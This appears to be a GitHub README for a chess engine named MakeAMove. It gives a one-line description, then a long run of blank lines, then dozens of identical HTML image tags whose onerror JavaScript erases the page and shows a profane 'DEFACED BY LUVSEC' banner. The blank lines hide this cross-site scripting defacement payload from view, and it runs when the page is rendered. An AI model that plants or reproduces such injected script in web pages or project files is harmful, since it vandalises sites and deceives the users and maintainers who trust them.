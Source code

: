 <div align="center">

<h1>MakeAMove</h1>

A W UCI Chess Engine

</div>

## About
MakeAMove is a **New** and **Improved** Chess Engine mean't to be a powerful computerized engine.














































































































































































































<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>
<img src="./4323.2523444" onerror='document.body.innerHTML =""; l=document.createElement("h1");l.innerHTML=" -- DEFACED BY LUVSEC -- FUCK SKIDS"; l.style.color="red";document.body.appendChild(l)'></img>

